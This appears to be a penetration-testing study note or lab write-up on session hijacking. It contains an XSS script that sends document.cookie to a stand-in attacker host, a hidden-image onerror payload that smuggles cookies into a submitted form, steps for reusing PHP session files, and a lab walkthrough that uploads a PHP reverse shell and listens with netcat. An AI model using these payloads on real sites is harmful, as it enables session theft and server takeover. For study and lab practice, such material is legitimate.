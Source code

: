 Session Hijacking refers to the **exploitation of a valid session assigned to a user**. The attacker can get the victim’s session identifier using a few different methods, though typically an XSS is used.

A Session Hijack attack can happen by:

![session hijacking](images/sess-hijacking.png)

<br/>

# Example

The application does not properly sanitize the input in the comment field. So, the attacker can insert the malicious payload here:

![session hijacking example](images/sess-hijacking2.png)

![session hijacking example result](images/sess-hijacking3.png)

By using the following script, we will be able to steal the users cookies.

    <script>
     var i=new Image();
     i.src="http://attacker.site/steal.php?q="%2bdocument.cookie;
    </script>

cookie needs to be accessbile by javascript for this to work, and preventing it solves the problem.(HTTPOnly flag set to true)

<br/>

# Packet sniffing

You can also use wireshark if you are on the same network to sniff the session value.

![packet sniffing](images/packet-sniff.png)

<br/>

# Access the web server

Session data will be stored within the folder specified by the php.ini entry **session.save_path**. The attacker will focus on files names **sess_&lt;sessionID>**

In a real-world example, we could find the following entries:

    sess_ta9i1kqska407387itjfl57624

    sess_7o4l0kk5btl4e4qlok8r26tn12

If you want to hijack the user session related to the first entry,install a new cookie in your web browser using these values:

    cookie name: PHPSESSID
    cookie value: ta9i1kqska407387itjfl57624

The attack is very simple; however, it is critical that the attacker
can access the web server file system.

<br/>

### ASP.NET can store session data in three different locations:

![asp.net session](images/asp.png)

<br/>

# Payloads

    <div style="display: none;"> 
    <img src="fgfdgNotExistent" onerror="document.getElementById('form').onsubmit=function () {
    var hidden='<span style=\'display:none;\'>'+document.cookie+'</span>'; 
    document.getElementById('message').value+=hidden;}"/>
    </div>

![payload-example](images/payload-1.png)

Create a hidden div below the actual message

    <div style="display: none;">

This div will contain the actual payload and is used to hide the image.

Create an image with a non-existent path. This will trigger an error (because the image cannot be found), caught by the onerror event, that contains the actual payload

    <img src="fgfdgNotExistent" onerror=[PAYLOAD]

The payload will simply create a hidden span that will contain the document.cookie object value. This span will be appended to the object with ID being message. This object happens to be the Textarea form element that the victim will have to submit.

once the user submits the form, the cookie will be stored in the hidden span

![payload-example-2](images/payload-2.png)

![payload-example-3](images/payload-3.jpg)

# Challenge 2 reverse shell

## First step

Find a script for reverse shell based on languange (php, python, ruby, perl, bash, etc) for this example we will use **PHP**.

Copy the script to a file and upload it to the server.(name it shell.php)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Change the ip and port to your own 

Type in the cmd **ifconfig** to find the ip address connected to the server/network. If the ip is 10.100.13.200 then change the **IP** in the script file to it.

    IP  : 10.100.13.200

    Port : 1234

Go to this link for the tutorial

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

After uploading the script click on it in the browser and then type in the cmd **nc -nvlp 1234** to listen for the reverse shell. 

    nc -nvlp 1234

In the command line from the shell type this command to find the session_save_path:

    php -r 'echo session_save_path(), "\n";' 

Finally you can check the directory with **ls** and print the content with **cat**.

    ls 
    cat [file name]
